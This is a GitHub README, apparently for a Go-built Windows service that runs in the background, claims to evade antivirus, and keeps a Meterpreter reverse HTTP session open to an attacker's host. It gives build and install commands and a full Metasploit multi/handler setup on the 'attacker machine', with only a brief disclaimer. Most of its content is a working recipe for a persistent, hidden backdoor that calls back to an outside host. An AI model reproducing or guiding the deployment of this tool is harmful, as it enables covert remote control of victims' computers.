 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

A simple windows service running on background that connects with a meterpreter session via http, with no virus signature, keeping the connection open and renewed automagically

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) for accepts the reverse connection

Change the LHOST and LPORT on `exploit.go` (metasploit handler ip and port)
```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
go build -o powershell-reverse.exe
```

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, restart, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
